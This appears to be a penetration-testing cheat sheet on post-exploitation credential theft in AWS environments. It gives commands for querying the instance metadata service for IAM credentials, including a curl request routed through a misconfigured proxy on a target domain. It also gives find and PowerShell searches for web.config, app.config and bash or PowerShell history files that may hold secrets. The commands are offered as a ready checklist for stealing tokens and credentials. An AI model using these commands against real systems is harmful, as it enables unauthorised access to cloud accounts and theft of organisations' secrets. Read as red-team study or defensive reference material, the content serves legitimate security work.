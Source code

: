 # Post exploitation
## Index
* [Getting Crdentials](#Getting-credentials)
  * [Stealing access tokens](#Stealing-access-tokens)
    * [Instance Metadata Service URL](#Instance-Metadata-Service-URL)
    * [Web config and App config files](#Web-config-and-App-config-files)
    * [Internal repositories](#Internal-repositories)
    * [Command history](#Command-history)

## Getting credentials
- Check the following dirs for scripts/creds:
  - ``` C:\ProgramData\Amazon`` 
  - ```C:\Program Files\Amazon\WorkSpacesConfig\```

## Stealing access tokens
### Instance Metadata Service URL
- For example possible by SSRF or when having access to the file system
```
http://169.254.169.254/latest/meta-data
```

#### Additional IAM creds possibly available here

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

- Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```
